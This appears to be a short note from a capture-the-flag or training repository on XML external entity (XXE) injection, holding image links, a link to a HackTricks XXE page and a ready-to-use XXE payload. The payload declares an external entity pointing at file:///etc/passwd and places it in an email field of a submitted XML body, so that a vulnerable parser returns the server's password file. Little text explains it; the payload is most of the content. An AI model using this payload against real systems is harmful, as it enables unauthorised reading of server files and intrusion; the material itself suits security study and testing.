 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/076d9062-4f17-426b-a613-fc5271b4e2f9)

https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/95aad968-766f-41df-afc4-929a3db0a5b7)

<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root><name>qwe</name><email>&xxe;</email></root>
